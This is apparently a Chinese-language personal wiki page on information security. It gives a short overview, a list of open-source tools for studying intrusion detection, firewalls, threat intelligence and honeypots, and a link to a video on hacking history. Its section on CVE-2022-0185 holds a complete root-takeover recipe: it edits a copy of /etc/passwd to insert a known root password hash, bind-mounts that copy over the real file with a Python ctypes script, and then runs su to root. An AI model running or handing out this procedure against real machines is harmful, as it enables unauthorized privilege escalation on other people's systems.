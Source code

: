 ```yaml
---
title: "信息安全"
linkTitle: "信息安全"
date: "2023-06-05T15:35"
weight: 1
---
```


# 概述

> 参考：
>
> - [Wiki, Information_security](https://en.wikipedia.org/wiki/Information_security)

**Information security(信息安全，简称 infosec)** 是通过降低信息风险来保护信息的实践。

[Data secruity](https://en.wikipedia.org/wiki/Data_security)

[Network security](https://en.wikipedia.org/wiki/Network_security)

# 待总结

要研究态势感知或安全运营中心，可以采用 OSSIM

要研究入侵防御技术，可以采用 Snort 或 Security Onion

要研究防火墙技术，可以采用 pfSense 或 OPNsense

要研究 Web 应用防火墙（WAF ），可以采用 ModSecurity

要研究威胁情报技术，可以采用 MISP 或 OpenCTI

要研究漏洞扫描技术，可以采用 OpenVAS 或 W3AF

要研究堡垒机技术，可以采用 JumpServer

要研究蜜罐技术，可以采用 T-Pot 或 Hfish

# 历史漏洞

## CVE-2022-0185

[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0185](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0185) 漏洞，通过如下操作，可以让普通用户直接重置 root 密码。主要利用的是 bind mount 功能，将 /etc/passwd 文件覆盖

```bash
$ cd ~
$ cp /etc/passwd ./
$ openssl passwd -1 -salt abc password
$1$abc$BXBqpb9BZcZhXLgbee.0s/

# 将第一行的 root:x 改为 root:$1$abc$BXBqpb9BZcZhXLgbee.0s/
$ head -2 passwd
root:$1$abc$BXBqpb9BZcZhXLgbee.0s/:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin


$ cat mount-passwd.py
from ctypes import *
libc = CDLL("libc.so.6")
libc.mount.argtypes = (c_char_p, c_char_p, c_char_p, c_ulong, c_char_p)
MS_BIND = 4096
source = b"<HOME>/passwd"
target = b"/etc/passwd"
filesystemtype = b"none"
options = b"rw"
mountflags = MS_BIND
libc.mount(source, target, filesystemtype, mountflags, options)

把上面的 <HOME> 换成你的 home 目录

$ python3 mount-passwd.py

$ su root
输入密码：password
```

# 信息安全历史

[B 站，俄罗斯黑客的激荡三十年](https://www.bilibili.com/video/BV1uu4y1X7FX?spm_id_from=333.1245.0.0)